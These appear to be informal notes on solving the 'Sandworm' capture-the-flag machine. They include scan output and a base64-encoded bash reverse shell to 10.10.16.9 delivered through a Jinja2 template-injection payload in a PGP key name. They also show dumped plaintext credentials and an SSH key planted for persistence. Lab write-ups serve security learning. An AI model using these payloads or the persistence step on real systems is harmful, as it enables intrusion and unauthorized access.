



└─$ nmap -sV -sC 10.10.11.218
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 04:55 EDT
Nmap scan report for 10.10.11.218
Host is up (0.77s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://ssa.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=SSA/organizationName=Secret Spy Agency/stateOrProvinceName=Classified/countryName=SA
| Not valid before: 2023-05-04T18:03:25
|_Not valid after:  2050-09-19T18:03:25
|_http-title: Secret Spy Agency | Secret Security Service
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 112.02 seconds

at https://ssa.htb/guide/encrypt

[](https://ssa.htb/guide/encrypt)

dirb results
+ https://ssa.htb/about (CODE:200|SIZE:5584)                                                                     
+ https://ssa.htb/admin (CODE:302|SIZE:227)                                                                      
+ https://ssa.htb/contact (CODE:200|SIZE:3543)                                                                   
+ https://ssa.htb/guide (CODE:200|SIZE:9043)                                                                     
+ https://ssa.htb/login (CODE:200|SIZE:4392)                                                                     
+ https://ssa.htb/logout (CODE:302|SIZE:229)                                                                     
+ https://ssa.htb/pgp (CODE:200|SIZE:3187)                                                                       
+ https://ssa.htb/process (CODE:405|SIZE:153)  

so we know there is ssti in the key encryption for sandworm

but need understanding over PGP keys

https://github.com/atriox2510/pgp-pysuite.git

when we use this to generate the pgp key and then the signed text we are getting verified

──(kali㉿kali)-[~/pgp-pysuite]
└─$ cat keypgp_uwu.pub.asc 
-----BEGIN PGP PUBLIC KEY BLOCK-----

mQENBGSlPkgBCADc1O0J9Ds4LG/c5+SuRmaSRHACRMqbyI/y/7MXm7AZjMF5rn0U
ZygZIao5z5FmD5Qj508tmlJpnEZGpQtXKV0JeTkeqs8kO+AEoHO5CFtUW7HgyHmn
xUzM1wDFzQZXAh5QjnNtK8MrnPSeD1Xx9qpA1h4Y56P9tBV0c+F3tQsviyMw8qNm
bWF6b24uY29tPokBTgQTAQoAOBYhBHadavRX2zp2k1VrTAbkbNHg8yIUBQJkpT5I
AhsvBQsJCAcCBhUKCQgLAgQWAgMBAh4BAheAAAoJEAbkbNHg8yIU45sH/RBsIngj
wrZCPCZ7kc3si1fkSAATz7Dyt/9KtexEAopL7gf5rmml7lsR2aqamHCU5siWmBkX
7D67np7aJgcyu+F8TZ3vlJsIjsJdTACkNpxlfkgPInKwY9bgJHAEMx5IichkCbi0
N7TxRwuFg+hBywoIq1z/V8ZzCZI5cEzP33v9Tokmtt7QqLeMiky8IO29Jo5XMqud
5tCOTcGQgSxGgh+6zxhr4WRaENTuTuWnliT+KuYzE2ry2pfDZhXU/NlSkuGEdt/4
TehSn+76J+hGDdfD7wCrS3kp6sh5qZDDPVvSKethNsJiUCrhWGPA3ucoXyilcSPf
UxsF/ZT1OZrLJzU=
=b8zD
-----END PGP PUBLIC KEY BLOCK-----

┌──(kali㉿kali)-[~/pgp-pysuite]
└─$ python3 sign.py -c keypgp_uwu.pub.asc -k keypgp_uwu.key.asc -p kali -m hello

[+] Message signed successfully

-----BEGIN PGP SIGNED MESSAGE-----
Hash: SHA512

hello
-----BEGIN PGP SIGNATURE-----

iQEzBAEBCgAdFiEEdp1q9FfbOnaTVWtMBuRs0eDzIhQFAmSlQkwACgkQBuRs0eDz
WbqmSgFcO2ArBhr/dg4PUWfBDDlMlroZErClV1etKT5U
k46ooF5uyhYmqdAyPKQWGsaqDf3Ma2AgwO2chlUHguY4C1R7ApapPFwDiVgvopuZ
s8hpWrWXIMixaOVrL/9ZNn3SX/cGEEGK0rrLVuqDp1s8UqGosOE5p7Q9Kx5HmjdE
vMPC2pmXnGGt5jTNRLDyEwcIhyq/mCEQ0g0VqiGd6jReIjVx7Oon7D3odcVzUNQ/
MlcmsQJA7gRnGxhh/4cu+wkwmx0v6A==
=b+27
-----END PGP SIGNATURE-----

we will now try and change the uid

https://www.sobyte.net/post/2021-12/modify-gpg-uid-name/

base64 encoded shell

/bin/bash -i >& /dev/tcp/10.10.16.9/1234 0>&1
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvMTIzNCAwPiYx

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvMTIzNCAwPiYx" | base64 -d | bash').read() }}`

python3 keygen.py -p kali -n "{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvMTIzNCAwPiYx | base64 -d | bash').read() }}" -e alexa@amazon.com 

python3 sign.py -c keypgp_uwu.pub.asc -k keypgp_uwu.key.asc -p kali -m hello

this got me a shell



atlas@sandworm:~/.config/httpie/sessions/localhost_5000$ ls
ls
admin.json
atlas@sandworm:~/.config/httpie/sessions/localhost_5000$ cat admin.json
cat admin.json
{
    "__meta__": {
        "about": "HTTPie session file",
        "help": "https://httpie.io/docs#sessions",
        "httpie": "2.6.0"
    },
    "auth": {
        "password": "quietLiketheWind22",
        "type": null,
        "username": "silentobserver"
    },
    "cookies": {
        "session": {
            "expires": null,
            "path": "/",
            "secure": false,
            "value": "eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkludmFsaWQgY3JlZGVudGlhbHMuIl19XX0.Y-I86w.JbELpZIwyATpR58qg1MGJsd6FkA"
        }
    },
    "headers": {
        "Accept": "application/json, */*;q=0.5"
    }
}

```
silentobserver@sandworm:/opt/tipnet/target/debug$ cat tipnet.d
/opt/tipnet/target/debug/tipnet: /opt/crates/logger/src/lib.rs /opt/tipnet/src/main.rs
```

Exploit to be run is firejail

```
silentobserver@sandworm:~$ python3 exploit.py
Traceback (most recent call last):
  File "/home/silentobserver/exploit.py", line 136, in <module>
    helper_proc, join_file = createHelperSandbox()
  File "/home/silentobserver/exploit.py", line 58, in createHelperSandbox
    proc = subprocess.Popen(
  File "/usr/lib/python3.10/subprocess.py", line 969, in __init__
    self._execute_child(args, executable, preexec_fn, close_fds,
  File "/usr/lib/python3.10/subprocess.py", line 1845, in _execute_child
    raise child_exception_type(errno_num, err_msg, err_filename)
PermissionError: [Errno 13] Permission denied: 'firejail'

silentobserver@sandworm:~$ firejail
-bash: /usr/local/bin/fire
jail: Permission denied

silentobserver@sandworm:~$ ls -al /usr/local/bin/firejail
-rwsr-x--- 1 root jailer 1777952 Nov 29  2022 /usr/local/bin/firejail
```
nano /opt/crates/loggger/src/lib.rs

use std::process::Command;

 

 somehow i got it

 added my keys for persistence

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC0fQqdcN8qxqB3OH9lCBMyGcAz+c8a5uRxuvif1A98/jv5LLYy/2GO7r68nHOSIviFtkbnydmuTyzBBSWhbxC/MWAX8XZx5C3rF598/phDzwN4seus2SMhZi5zUZ6iylBBI8xht5J+u/InI6BlsXQ65H3xw+yFxndxeKi3Gu17glt3OEe8aAPaxj3qU89L1xbOr4m3mSqnhJne7eV05nqYvZDHP+pgOQE02dmmplRfTHCKbEfwqY/nDx7QWw6WtrQigNlEGNcWJUVKNlXBGoGHZuyHNMpoh4XjinLeM9GKFY4xRxk2CyFBLwlouOtj7s5EtFB5CLnaQMpDtzI+gJyma7nzxJZxELrlTHyjPJoQHQSmlQe+tBNBRAEL92wac79psK7s3PARdCcyEnpe8l9cplPP8YIS8tMg6BVVjTGPQNN0BJBwRxEjrvAKae1phztkQD7tZKy3aEl8VCUR8tpJ0fw0mK6/PJGxgCYXZWWKwycHOnJKQYDL17qsTypaLL8= kali@kali" >> authorized_keys

```

then did the firejail exploit

remember to have proper shell before running it




git root
